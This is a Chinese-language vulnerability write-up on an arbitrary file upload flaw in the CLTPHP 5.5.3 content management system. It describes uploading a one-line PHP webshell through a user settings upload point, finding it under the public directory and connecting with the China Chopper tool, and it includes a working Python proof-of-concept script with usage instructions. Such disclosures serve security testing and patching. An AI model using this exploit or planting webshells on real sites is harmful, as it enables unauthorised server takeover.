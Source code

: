 CLTPHP 5.5.3 任意文件上传漏洞
=============================

一、漏洞简介
------------

CLTPHP采用ThinkPHP开发，后台采用Layui框架的内容管理系统。

二、漏洞影响
------------

CLTPHP 5.5.3

三、复现过程
------------

找到一个注册界面

![2.png](./resource/CLTPHP5.5.3任意文件上传漏洞/media/rId24.png)

随便注册一个用户，登陆后在设置里找到一个上传点

![3.png](./resource/CLTPHP5.5.3任意文件上传漏洞/media/rId25.png)

上传我们的一句话木马

![4.png](./resource/CLTPHP5.5.3任意文件上传漏洞/media/rId26.png)

查看返回包，上传成功

![5.png](./resource/CLTPHP5.5.3任意文件上传漏洞/media/rId27.png)

访问失败，猜测返回路径可能不是绝对路径

![6.png](./resource/CLTPHP5.5.3任意文件上传漏洞/media/rId28.png)

通过报错信息查找关键词，发现存在public目录 那再把public加上再试试\~
success！

![7.png](./resource/CLTPHP5.5.3任意文件上传漏洞/media/rId29.png)

菜刀连接

![8.png](./resource/CLTPHP5.5.3任意文件上传漏洞/media/rId30.png)

### poc

> payload.py

    #!/usr/bin/python
    #-*- coding: UTF-8 -*-
    #Author：Bypass
    #Date：2018.03.01
    import requests
    import sys

    def CLPHP_upload(url):
            header = { 'User-Agent' : 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)' ,
                                    'X-Requested-With': 'XMLHttpRequest',} 
            geturl = url+"/user/upFiles/upload"
            files ={'file':('1.php',open('1.php','rb'),'image/jpeg')}
            res = requests.post(geturl, files=files,headers=header)
            print res.text

    if __name__ == "__main__":
            if len(sys.argv) == 2:
                    url=sys.argv[1]
                    CLPHP_upload(url)
                    sys.exit(0)
            else:
                    print ("usage: %s xxx.com " % sys.argv[0])
                    sys.exit(-1)

**使用方法**：把payload.py和一句话.php放到同一文件夹下，

![9.png](./resource/CLTPHP5.5.3任意文件上传漏洞/media/rId32.png)

cmd执行 `python payload.py www.0-sec.org`

![10.png](./resource/CLTPHP5.5.3任意文件上传漏洞/media/rId33.png)

参考链接
--------

> https://www.cnblogs.com/unixcs/p/11244463.html
